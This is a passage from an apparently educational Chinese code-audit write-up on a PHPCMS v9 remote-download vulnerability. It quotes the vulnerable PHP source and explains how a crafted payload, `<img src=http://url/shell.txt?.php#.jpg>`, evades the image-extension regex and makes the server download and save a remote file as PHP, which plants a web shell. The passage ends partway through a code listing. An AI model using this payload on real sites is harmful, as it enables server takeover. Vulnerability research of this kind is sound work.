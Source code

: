 ```php
         $downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
         $aid = $this->add($downloadedfile);
         $this->downloadedfiles[$aid] = $filepath;
      }
   }
   return str_replace($oldpath, $newpath, $value);
}  
```

函数中先对$value中的引号进行了转义，然后使用正则匹配：

```php
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=(["|']?)([^ "'>]+.($ext))\2/i",$string, $matches)) return $value;
```

这里正则要求输入满足src/href=url.(gif|jpg|jpeg|bmp|png)，所以我们的payload`<img src=http://url/shell.txt?.php#.jpg>`符合这一格式。

接下来有串代码，目的是用来代码来去除 url 中的锚点。

```php
foreach($matches[3] as $matche)
{
   if(strpos($matche, '://') === false) continue;
   dir_create($uploaddir);
   $remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
}
```

最后在第162行有这样一行代码。

```php
$remotefileurls = array_unique($remotefileurls);
```

它的效果如下图，可以看到`.jpg`已经没有

![15](/Users/l1nk3r/Desktop/代码审计考核材料/phpcms/phpcms-pic/15.png)

然后继续单步调试就很明显知道干了什么。

![16](/Users/l1nk3r/Desktop/代码审计考核材料/phpcms/phpcms-pic/16.png)

这里就是通过程序调用copy函数，对远程的文件进行了下载，然后并且写入。这里其实已经告诉我们写的文件了。

![17](/Users/l1nk3r/Desktop/代码审计考核材料/phpcms/phpcms-pic/17.png)

### 如何测试获取上传地址

```php
if(pc_base::load_config('system', 'phpsso')) {
   $this->_init_phpsso();
   $status = $this->client->ps_member_register($userinfo['username'], $userinfo['password'], $userinfo['email'], $userinfo['regip'], $userinfo['encrypt']);
   if($status > 0) {
      $userinfo['phpssouid'] = $status;
      //传入phpsso为明文密码，加密后存入phpcms_v9
      $password = $userinfo['password'];
      $userinfo['password'] = password($userinfo['password'], $userinfo['encrypt']);
      $userid = $this->db->insert($userinfo, 1);
      if($member_setting['choosemodel']) {   //如果开启选择模型
         $user_model_info['userid'] = $userid;
         //插入会员模型数据
         $this->db->set_model($userinfo['modelid']);
         $this->db->insert($user_model_info);
```